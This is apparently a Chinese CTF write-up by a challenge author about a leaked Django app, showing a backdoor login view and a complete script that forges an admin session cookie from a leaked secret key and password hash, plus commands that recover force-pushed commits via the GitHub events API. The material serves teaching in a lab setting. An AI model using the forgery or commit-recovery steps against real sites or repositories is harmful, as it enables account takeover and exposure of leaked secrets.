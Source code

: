 # 被泄漏的姜戈

本题的灵感来源于……大家应该都知道了，我就不写了。

首先，题面非常清楚提示了：

> 好像还在什么 hub 还是 lab 来着建了一个叫 openlug……

所以第一步是找到这玩意泄漏出的源代码（和数据库），否则是不可能做出来的。为什么会有人拿个 `sqlmap` 一通扫啊……醉了。

最终，你可以在 https://github.com/openlug/django-common 或者 https://gitlab.com/openlug/django-common 找到源代码。用 `openlug` 和 `Rabbit House` 都是能搜到结果的。

## 简单的解法

需要简单学习 Django，并添加一个可以让你登录为 admin 的路由。

在 `app/views.py` 添加：

```python
from django.contrib.auth.models import User
def backdoor(request):
    user = User.objects.get(username="admin")  # 使用 Django ORM 选择 admin 用户
    login(request, user) # 以 admin 的身份登录
    return redirect(reverse("profile")) # 跳转到 profile
```

然后在 `app/urls.py` 里的 `urlpatterns` 里面添加 URL：

```python
path('backdoor', views.backdoor, name='backdoor')
```

然后开跑：

```
python manage.py runserver
```

访问我们加入的 backdoor，就可以看到 admin 的 cookie 了。把这个 cookie 复制，在 Console 里面 `document.cookie=...` 给 cookie 赋值，进入 `/profile` 就行了。

## 复杂的解法

这是我最开始出完题之后使用的解法。这种解法需要去看 Django 的源代码，了解其是如何处理 session 的。

首先根据 https://docs.djangoproject.com/en/2.2/topics/http/sessions/#using-cookie-based-sessions ，加上 `settings.py` 里面的设置，可以看到 session 设置成了签名后存储在 cookie 中。文档同时也给了一个 RCE 警告，但是因为我们没有用 `PickleSerializer`，所以没有这个漏洞。

### 从签名还原 session

登录为 guest，可以看到 guest 的 cookie 为

```
sessionid=.eJxVjDEOgzAMRe_iGUUQULE7du8ZIid2GtoqkQhMVe8OSAzt-t97_wOO1yW5tersJoErWGh-N8_hpfkA8uT8KCaUvMyTN4diTlrNvYi-b6f7d5C4pr1uGXGI6AnHGLhjsuESqRdqByvYq_JohVDguwH3fzGM:1iLiU1:d4koNGDuy18fbggeMbGhprUL_gs
```

然后呢？如果直接用 https://docs.djangoproject.com/en/2.2/topics/signing/ 里的方式，用 `signing.loads(value)` 的话，只能得到一条 Exception。我们要看 `django.contrib.sessions.backends.signed_cookies` 的实现。在此类的 `load` 方法中，可以看到：

```python
return signing.loads(
                self.session_key,
                serializer=self.serializer,
                # This doesn't handle non-default expiry dates, see #19201
                max_age=settings.SESSION_COOKIE_AGE,
                salt='django.contrib.sessions.backends.signed_cookies',
            )
```

它加盐了。我们用这个盐重新加载：

```python
value = ".eJx（之后的内容省略）"
signing.loads(value, salt='django.contrib.sessions.backends.signed_cookies')
```

可以看到 guest session 是：

```python
{'_auth_user_id': '2', '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend', '_auth_user_hash': '0a884f8b987fca1a92c6f93d9042d83eea72d98d'}
```

### 修改 session

我们的目标是让 `_auth_user_id` 为 1，并且改变后面对应的 `_auth_user_hash`，使 Django 认为我们的 cookie 是正确的。但后面那个 `_auth_user_hash` 又是个什么东西？

搜索 `_auth_user_hash`，可以找到 https://docs.djangoproject.com/zh-hans/2.2/_modules/django/contrib/auth/ ，其中对应到了 `HASH_SESSION_KEY` 变量，最终可以找到 `user.get_session_auth_hash()`。

这个函数的实现在 `django/contrib/auth/base_user.py`。

```python
def get_session_auth_hash(self):
    """
    Return an HMAC of the password field.
    """
    key_salt = "django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash"
    return salted_hmac(key_salt, self.password).hexdigest()
```

这里的 `self.password` 不是原始密码，而是数据库中存储的密码哈希。读一下附送的 SQLite 数据库的 `auth_user` 表就可以了。

最终 exp 如下：

```python
from django.core import signing
from django.utils.crypto import salted_hmac

admin_hash = "pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE="

_auth_user_hash = salted_hmac("django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash",
                              admin_hash).hexdigest()

payload = {'_auth_user_id': '1',
           '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
           '_auth_user_hash': _auth_user_hash}

cookie = signing.dumps(payload,
                       salt='django.contrib.sessions.backends.signed_cookies',
                       compress=True)

print(cookie)
```

## 花絮

### 关于 Django

一开始想出这个题，是因为自己在网上找到了铺天盖地的如何构造 Flask 的 session 和使用 Django signed cookies 的 `PickleSerializer` 的 wp，但是怎么找都找不到怎么构造 Django 的 session，才开写的。

本来这道题可以变成一道比较难的 web，但被 Z 同学发现了简单解之后，一下子就变简单了，而且我也没什么时间去改，于是就变成这样了。

其实 Django 还是挺靠谱的，单单泄漏 secret key 而不泄漏密码哈希也是搞不了这样的效果的，而且为了整出这样的「漏洞」，并方便大家测试，特地把 Django 的默认设置进行了一些魔改，包括使用 cookies（而不是在数据库里存 session）等等。

此外为了能够只读挂 SQLite 数据库，对 Django 进行了一下 monkey patch：

```python
from django.contrib.auth import models


def update_last_login(sender, user, **kwargs):
    pass


models.update_last_login = update_last_login
```

这样登录 guest 用户的时候，数据库里最后登录时间就不会更新。

最后在 `settings.py` 里面，还留了一个小彩蛋：

> SECURITY WARNING: keep the secret key used in production **non-secret**!

### 关于命名

嗯？至于你问为什么要起名叫「Rabbit House 成员管理系统」？这是因为在写题目的时候，社团活动室的一位同学正在尝试在 Minecraft 里面搭建点兔式的小镇与咖啡馆，于是我就这么起名字了，反正没有人会这么给自己的项目命名，也更好搜索。

至于那个咖啡馆，最后确实建成了，只是附近多出了好几个核弹坑而已。~~咖啡厅孤岛~~ ~~点兔终末旅行~~

### 你知道吗？Force push 来「撤销」机密信息的提交很多时候是没有用的。

一开始在上传到 GitHub 的 openlug 的私仓的时候，一不小心把带 flag 的文件交上去了。一开始我就直接 force push 覆盖了，但是之后舍友 F（也是正则那道题的出题人）提醒我还有问题（见 https://ibugone.com/blog/2019/06/save-commit-from-github/ ）。 ~~差点被非预期~~

本地，可以输入 `git reflog` 来看你所有的修改记录，包括你的 `reset --hard` 操作。以下是一个示例。

```
$ git reflog
fccf006 (HEAD -> master) HEAD@{0}: reset: moving to fccf0069b5de863e35ff00a64308176c40bc343a
d5244a8 HEAD@{1}: commit: add
fccf006 (HEAD -> master) HEAD@{2}: commit (initial): init
```

可以使用 `git reset SHA1` 回到 reset 之前的状态。

尽管 `reflog` 不会被上传到 git 服务器中，但是很多 git 服务也还是保留着记录的（就算你 force push）。比如说 GitHub：

```
curl https://api.github.com/repos/用户名/仓库名/events
```

你会惊讶地发现，你就算 force push，记录还被保存着。那怎么获取这条记录的内容呢？我们拿到 commit 的 SHA1，之后：

```
wget https://api.github.com/repos/用户名/仓库名/tarball/SHA1
```

就能下载下来了。

嗯？你问我一不小心把密码传上了 GitHub 公开仓库怎么办？你还是赶紧改密码吧。

当然一个好消息是：GitHub 不会存你所有的记录。

> Events support [pagination](https://developer.github.com/v3/#pagination), however the `per_page` option is unsupported. The fixed page size is 30 items. Fetching up to ten pages is supported, for a total of 300 events.
>
> Only events created within the past 90 days will be included in timelines. Events older than 90 days will not be included (even if the total number of events in the timeline is less than 300).

(from: https://developer.github.com/v3/activity/events/#list-public-events)